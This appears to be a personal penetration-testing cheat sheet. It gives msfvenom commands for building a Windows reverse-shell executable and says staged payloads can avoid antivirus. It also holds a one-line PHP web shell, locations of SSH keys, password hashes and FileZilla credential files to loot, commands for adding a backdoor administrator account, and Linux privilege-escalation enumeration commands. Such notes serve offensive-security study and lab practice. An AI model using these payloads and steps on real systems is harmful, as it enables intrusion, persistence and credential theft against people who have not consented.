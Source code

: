 Generate payloads with
```
msfvenom -p <payload> <options>
```

For example, to generate a Windows x64 Reverse Shell in an exe format

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

2 types of reverse shell payloads
- staged - come in 2 parts, the first sets up a listener, then loads the second part which is the actual payload.  Can avoid AV as the reverse shell is never loaded to disk
- stageless - all-in-one payload which contains both the listener and the full payload


In metasploit payloads are generally listed as `<os>/<arch>/<payload>` e.g. `linux/x86/shell_reverse_tcp`

To list payloads `msfvenom --list payloads`

## web payloads
simple PHP
```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
Then you can use the `cmd` get param to specify a command to run e.g. `http://blah.com/shell.php?cmd=ifconfig`

Lots in kali under `/usr/share/webshells`

# Where to look once you have access

## SSH
`/home/<user>/.ssh`

## Logins to crack
- `/etc/shadow`
- `/etc/passwd`

## Windows
look for FTP creds
- `C:\Program Files\FileZilla Server\FileZilla Server.xml`
- `C:\xampp\FileZilla Server\FileZilla Server.xml`

Create a new user
`net user <username> <password> /add`
`net localgroup administrators <username> /add`

# Privilege Escalation
## Linux
### Useful commands
- `hostname` - returns the machine name, sometimes contains useful indicators on the machine use
- `uname -a` - print info about the kernel, which might be unpatched
- `cat /proc/version` - provides info on system processes
- `cat /etc/issue` - Usually contains OS info
- `ps` - show processes in the current shell
- `ps -A` - show all processes
- `ps axjf` - show process tree
- `ps aux` - show processes for all users (a), user that launched it (u) and not attached to the terminal (x)